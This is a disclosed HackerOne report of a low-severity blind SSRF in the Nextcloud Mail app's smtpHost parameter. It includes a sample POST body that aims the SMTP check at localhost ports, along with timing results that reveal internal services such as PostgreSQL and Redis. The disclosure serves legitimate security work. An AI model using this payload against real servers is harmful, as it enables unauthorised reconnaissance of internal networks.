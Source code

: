 # Mail app - blind SSRF via smtpHost parameter

## Report Details
- **Report ID**: 1746582
- **URL**: https://hackerone.com/reports/1746582
- **State**: Closed
- **Severity**: low
- **Submitted**: 2022-10-22T11:43:18.407Z
- **Disclosed**: 2023-02-06T21:28:29.483Z

## Reporter
- **Username**: supr4s
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
Hi everyone,

I would like to report here a Blind SSRF vulnerability through the Nextcloud Mail application.

Tested on latest Mail release : `2.0.1`.

## Steps To Reproduce:

This is a similar report to report #1736390, but this time on a different parameter. The vulnerable parameter is `smtpHost`.

The only difference here is that you have to enter the correct settings for the IMAP part first. The server will first check if the IMAP parameters are correct, before checking the SMTP parameters and thus allowing us to use this SSRF blind.

The POST request in question : 

```
{"imapHost":"ssl0.ovh.net","imapPort":993,"imapSslMode":"ssl","imapUser":"redacted","imapPassword":"redacter","smtpHost":"127.0.0.1","smtpPort":8080,"smtpSslMode":"none","smtpUser":"xx","smtpPassword":"xx","accountName":"Test1","emailAddress":"xxx@xxx.org"}
```

This does not change afterwards, we can probe accessible IPs/open ports based on the response time : 

- For an accessible host/port: response time > 1000ms 
- For a closed port/host that does not exist: response time < 100ms

{{F1998975}}

```
Port 80 - response time : 5200ms - Apache2 service
Port 443 - response time : 5200ms - Apache2 service
Port 8080 - response time 5140ms - CrowdSec
Port 6060 - response time 5180ms - CrowdSec
Port 5432 - response time 5191ms -  PostgreSQL
Port 6379 - response time 5216ms - My Redis instance for Nextcloud
```

## Impact

From [OWASP](https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/) :

> SSRF flaws occur whenever a web application is fetching a remote resource without validating the user-supplied URL. It allows an attacker to coerce the application to send a crafted request to an unexpected destination, even when protected by a firewall, VPN, or another type of network access control list (ACL).

This vulnerability can be exploited by any user, regardless of their rights, as long as the mail application is installed and enabled. A malicious person can therefore retrieve the services running locally on the server, scan your internal network for interesting information about which IPs are responding, which services are running on each IP address, etc.

Regards,
Supr4s

## Attachments
- Capture_d__cran_du_2022-10-15_22-53-34.png
